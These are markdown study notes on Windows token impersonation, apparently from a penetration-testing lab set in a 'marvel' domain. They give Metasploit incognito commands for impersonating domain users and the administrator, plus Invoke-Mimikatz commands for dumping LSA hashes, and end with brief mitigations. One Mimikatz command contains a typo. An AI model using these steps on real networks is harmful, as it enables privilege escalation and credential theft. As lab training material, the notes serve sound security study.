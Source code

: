 # Token Impersonation

## What are Tokens

* temp keys that allow you to have access to a system/network
* acts as a replacement to credentials, so you do not have to keep typing in a user and password
* in simpler terms, they are cookies for computers

## Two Types of Tokens

### delegate

* created for logging into a machine or for using it with Remote Desktop Protocol lasts until the computer is rebooted

### impersonate

* “non-interactive” such as attaching a network drive or a domain login script

## Token Impersonation Method

### Step 1: Get Ready

* pop a shell

```bash
load incognito #(a Metasploit module)
help
```

* can also use Mimikatz or Kiwi

### Step 2: Impersonate a Domain User

```bash
list_tokens -u
impersonate_token marvel\\fcastle #(two slashes cause of char escape)
shell #yes this is a command
```

### Step 3: Attempt to Dump Hashes as Non-Domain Admin (different machines have different tokens)

```bash
Invoke-Mimikatz -Command ‘"privilege::debug" “LSADump::LSA /inject” exit’ -Computer HYDRA.marvel.local
```

* most likely will fail
* or you can try hashdump (if it fails to “rev2self” and run it again)

### Step 4: Identify Domain Admin

```bash
list_tokens -u #(Meterpreter shell command)
```

### Step 5: Impersonate an Admin

```bash
impersonate_token marvel\\administrator
whoami
```

### Step 6: Attempt to Dump Hashes as a Domain Admin

```bash
Invoke-Mimikatz -Command ‘"privlede::debug" “LSADump::LSA /inject” exit’ -Computer HYDRA.marvel.local
```

* or you can also do hashdump (if it fails to “rev2self” and run it again)

## Mitigation

* limit user/group token creation permissions
* account tiering
* local admin restriction
